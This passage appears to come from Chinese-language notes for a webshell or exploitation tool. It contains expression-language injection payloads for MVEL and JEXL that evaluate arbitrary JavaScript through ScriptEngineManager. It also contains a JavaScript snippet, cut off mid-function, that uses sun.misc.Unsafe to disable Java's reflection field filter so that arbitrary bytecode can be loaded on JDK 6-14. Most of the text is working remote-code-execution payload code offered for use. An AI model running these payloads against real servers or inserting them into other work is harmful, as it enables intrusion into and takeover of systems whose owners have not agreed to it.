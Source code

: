 

选择ognl编码器，一键连接

![image-20230802163807149](./assets/image-20230802163807149.png)

### Mvel

```
new javax.script.ScriptEngineManager().getEngineByName("js").eval(code);
```

### Jexl

```
''.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval(code)
```



##  js加载任意字节码

### all.js

适用范围：jdk6-14

```
var theUnsafeMethod = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafeMethod.setAccessible(true);
unsafe = theUnsafeMethod.get(null);

function bypass() {
    var reflectionClass = java.lang.Class.forName("jdk.internal.reflect.Reflection");
    var classBuffer = reflectionClass.getResourceAsStream("Reflection.class").readAllBytes();
    var reflectionAnonymousClass = unsafe.defineAnonymousClass(reflectionClass, classBuffer, null);

    var fieldFilterMapField = reflectionAnonymousClass.getDeclaredField("fieldFilterMap");

    if (fieldFilterMapField.getType().isAssignableFrom(java.lang.Class.forName("java.util.HashMap"))) {
        unsafe.putObject(reflectionClass, unsafe.staticFieldOffset(fieldFilterMapField), java.lang.Class.forName("java.util.HashMap").newInstance());
    }
```